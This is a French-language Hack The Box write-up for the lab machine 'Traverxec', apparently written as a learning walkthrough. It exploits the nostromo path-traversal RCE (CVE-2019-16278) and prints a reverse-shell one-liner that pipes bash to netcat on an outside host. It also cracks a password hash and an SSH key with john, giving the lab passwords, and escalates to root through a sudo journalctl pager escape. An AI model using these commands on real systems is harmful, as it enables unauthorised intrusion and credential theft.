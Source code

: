 # Infos

Level : Easy  
OS : Linux  
IP : 10.129.24.71  
Hostname: traverxec

# Reconnaissance

## Nmap TCP base

```
nmap -T4 --min-rate 10000 -sV -oN nmap_base 10.129.24.71 -v

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
80/tcp open  http    nostromo 1.9.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On est sur l'OS Linux, sur le port 80, on retrouve la version de nostromo 1.9.6 qui peut être intéressant pour la suite.

# Enumération

## Port 80/tcp - HTTP

Sur le site, on retrouve une page web statique. Si on se renseigne sur  [nostromo](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=NHTTPD), on peut voir qu'il s'agit d'un serveur web très minimaliste.

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/80-site.png)

En bas de la page, on a un formulaire, mais il ne fonctionne pas

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/80-form-disabled.png)

## Foothold - www-data

Pas de robots.txt, on commence par fuzz les répertoires et fichiers, mais ça ne donne rien. Si on recherche des exploits en lien avec la version de nostromo, on retrouve un [exploit](https://www.exploit-db.com/exploits/47837) concernant la [CVE-2019-16278](https://nvd.nist.gov/vuln/detail/CVE-2019-16278) permettrant un path traversal dans la fonction `http_verify`, cela mène à une RCE.

L'exploit semble un peu vieux, on va en chercher un autre. Rapidement, on trouve cet [exploit](https://raw.githubusercontent.com/jas502n/CVE-2019-16278/master/CVE-2019-16278.sh) en bash sur Github. Cela nous demande l'hôte comme premier argument, puis le port en second argument et enfin la commande que l'on souhaite.

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/80-rce.png)

Ca fonctionne et on obtient bien une RCE. Essayons maintenant d'obtenir un reverse shell Bash TCP, ça ne fonctionne pas, mais si on essaye avec le reverse shell mkfifo ça passe et on récupère un shell en tant que www-data

`bash CVE-2019-16278.sh 10.129.24.71 80 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.33 9001 >/tmp/f"`

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/shell-www-data.png)

## Mouvement latéral - david

Sur la machine, on retrouve deux utilisateurs, david qui pourrait être notre pivot et le compte root.

Lancement de linpeas, variables d'env

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/www-data-peas-env.png)

Fichier .htpasswd

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/www-data-peas-htpasswd.png)

`david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/`

On peut tenter de cracker ce hash et ça fonctionne `Nowonly4me`, mais impossible d'utiliser ce mot de passe via su ou SSH

`john --format=md5crypt hash-md5-david.txt --wordlist=/opt/rockyou.txt`

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/lat-crack-hash.png)

Dans le répertoire contenant le server web nostromo, on retrouve un fichier de conf `nhttpd.conf` qui nous permet de voir qu'il y a un dossier accessible `public_www` sous `/home/david/public_www`

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/lat-conf-nostromo.png)

Quand on y accède on retrouve un fichier et un dossier :
- index.html
- protected-file-area -> folder

Dans ce dossier on retrouve également deux fichiers :
- .htaccess -> ne donne rien
- backup-ssh-identity-files.tgz -> archive d'un backup SSH -> juicy :p

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/lat-conf-nostromo.png)

On ne peut pas décompresser l'archive sur la target, mais on peut essayer de le transférer sur la machine d'attaque. Ca ne fonctionne pas, on peut tenter de copier le fichier dans /tmp, lui assigner les droits et le décompresser

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/lat-david-ssh.png)

Ca fonctionne et on retrouve sa clé privée RSA chiffrée sous `/tmp/home/david/.ssh/id_rsa`

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/lat-david_idrsa_crypt.png)

Utilisation de ssh2john pour générer un hash

`/opt/tools/john/run/ssh2john.py id_rsa_david > id_rsa_david_hash`

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/lat-david-idrsa_hash.png)

Crack avec JtR, on retrouve le mdp `hunter`

`john id_rsa_david_hash --wordlist=/opt/rockyou.txt`

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/lat-david-idrsa_crack.png)

Tentative de connexion en SSH et récupération du flag user.txt

`ssh -i id_rsa_david david@10.129.24.71`

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/userflag.png)

## Elévation de privilèges - root

Lancement de linpeas pour trouver un path pour le root, sous `/home/david/bin/` on retrouve le fichier `server-stats.sh` qui fait appel à la commande sudo, ce qui pourrait être intéressant pour obtenir le compte root.

Si on l'exécute, on obtient ceci

`./server-stats.sh`

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/pe-server-stats.png)

La dernière ligne fait appel à sudo sur journalctl, cela va ouvrir un less, on peut privesc de cette manière `!/bin/bash`

`/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service`

Après plusieurs tentatives, il faut deux terminaux pour que ça fonctionne, en effet si on tente avec un seul, le pager less ne se lance pas.

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/pe-suid-error.png)

Alors qu'avec deux terminaux, ça fonctionne. On peut récupérer le dernier flag

![](https://github.com/0xLuks/htb-writeup/blob/main/traverxec/img/rootflag.png)
